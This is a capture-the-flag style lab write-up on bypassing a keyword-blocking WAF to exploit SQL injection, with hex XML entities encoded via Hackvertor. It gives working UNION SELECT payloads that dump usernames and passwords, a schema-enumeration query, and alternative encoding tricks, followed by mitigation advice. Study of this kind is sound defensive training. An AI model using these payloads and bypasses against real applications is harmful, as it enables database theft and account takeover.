

# Lab 18: SQL Injection with Filter Bypass via XML Encoding

## Category
SQL Injection - Filter Bypass

## Vulnerability Summary
This lab has a WAF/filter that blocks common SQL injection keywords like `UNION`, `SELECT`, `FROM`, etc. The trick is to bypass it using **XML entity encoding** with Hackvertor. The app parses XML in the request body, and we can hide our SQLi payload inside hex-encoded XML entities.

## Attack Methodology

### Step 1: Recon
First, sent a normal request to see how the app works. The lab uses XML in the request body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Tried basic SQLi like `' UNION SELECT NULL--` but got blocked.

### Step 2: Understanding the Filter
The WAF was blocking keywords:
- `UNION` → blocked
- `SELECT` → blocked  
- `FROM` → blocked

Need to find a way to encode these so the filter doesn't recognize them.

### Step 3: Using Hackvertor for XML Hex Encoding
This is where Hackvertor comes in. The XML parser supports hex entities like `&#x41;` for `A`.

Payload I used:
```xml
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
</@hex_entities>
```

Hackvertor automatically converts everything inside `@hex_entities` tags to hex entities.

### Step 4: Final Payload
After Hackvertor encoding, the payload looks like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>
        1 UNION SELECT username || '~' || password FROM users
        </@hex_entities>
    </storeId>
</stockCheck>
```

The XML parser decodes the hex entities back to the original SQL, but the WAF never sees the actual keywords.

### Step 5: Results
Got the data back:
```
carlos~sx6xm4hhp26a9os463jd
administrator~f5wfebgd0r4h1yytmwe9
wiener~nn44fb4m5tmk30ebyvys
```

Extracted admin password: `f5wfebgd0r4h1yytmwe9`

### Step 6: Lab Solved
Logged in as administrator and solved the lab.



## Technical Root Cause

The vulnerability happens because:

1. **XML Parser Decodes Entities**: The app's XML parser converts hex entities (`&#x55;&#x4e;&#x49;&#x4f;&#x4e;` = `UNION`) back to plaintext before processing

2. **WAF Checks Before Decoding**: The filter runs on the raw request, so it sees hex garbage, not SQL keywords

3. **SQL Injection After Decoding**: By the time the SQL query is built, the payload is already decoded and ready to execute

```sql
-- What the WAF sees (hex entities):
&#x31; &#x55;&#x4e;&#x49;&#x4f;&#x4e; &#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;...

-- What the XML parser sees (decoded):
1 UNION SELECT username || '~' || password FROM users

-- What actually executes:
SELECT * FROM products WHERE id = 1 UNION SELECT username || '~' || password FROM users--
```

## Why This Works

| Layer | What It Sees | Result |
|-------|--------------|--------|
| WAF/Filter | `&#x55;&#x4e;&#x49;&#x4f;&#x4e;` | No match, passes through |
| XML Parser | Decodes to `UNION` | Processes normally |
| SQL Engine | Gets `UNION SELECT...` | Executes the injection |

## Impact

- **WAF Bypass**: Encoding bypasses keyword filters
- **Data Exfiltration**: Full database access
- **Account Takeover**: Got admin credentials easily
- **No Rate Limiting**: Could automate this with Intruder

## Proof of Concept

### Basic Hex Encoding Payload
```xml
<@hex_entities>1 UNION SELECT NULL--</@hex_entities>
```

### Extract All Users
```xml
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
</@hex_entities>
```

### For PostgreSQL (this lab)
```xml
<@hex_entities>
1 UNION SELECT table_name, NULL FROM information_schema.tables
</@hex_entities>
```

### Alternative Encodings (if hex doesn't work)
- **HTML Entities**: `&#85;&#78;&#73;&#79;&#78;` = `UNION`
- **URL Encoding**: `%55%4E%49%4F%4E` = `UNION`
- **Double URL**: `%25%35%25%35...` for deeper filtering

## My Key Takeaways

1. **Hackvertor is a Time Saver**: Manually converting to hex entities would take forever. Hackvertor does it instantly.

2. **XML Entity Encoding > URL Encoding**: For XML-based apps, hex entities work better because the XML parser handles decoding, not the web server.

3. **Know Your Parser**: Different parsers decode different encodings. XML parsers handle `&#xNN;`, HTML parsers handle `&nbsp;`, etc.

4. **Layer Your Testing**: When a filter blocks you, think about what layer is doing the blocking and what encoding bypasses it.

5. **The `|| '~' ||` Trick**: Using a separator like `~` between username and password makes it easier to split the results later.

6. **PostgreSQL Syntax**: 
   - String concat: `||`
   - No `FROM dual` needed
   - `information_schema.tables` for enumeration

## Mitigation

### 1. Decode Before Filtering
```java
// ❌ Bad - Filter on raw input
if (input.contains("UNION")) { block(); }

// ✅ Good - Decode first, then filter
String decoded = decodeXmlEntities(input);
if (decoded.contains("UNION")) { block(); }
```

### 2. Parameterized Queries
```java
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM products WHERE id = ?");
stmt.setInt(1, productId);
```

### 3. Input Validation
- Reject unexpected XML entities in input
- Whitelist allowed characters for product/store IDs
- Validate XML schema strictly

### 4. WAF Improvements
- Decode common encodings before pattern matching
- Block requests with excessive hex entities
- Rate limit XML-heavy endpoints

## References
- [PortSwigger Filter Bypass Lab](https://portswigger.net/web-security/sql-injection/filter-bypass-xml-encoding)
- [Hackvertor Documentation](https://github.com/Hackvertor/hackvertor)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

---

**Extracted Credentials:**
```
administrator:f5wfebgd0r4h1yytmwe9
```

**Payload Used:**
```xml
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
</@hex_entities>
```

---
*Lab completed on: 2026-03-26*
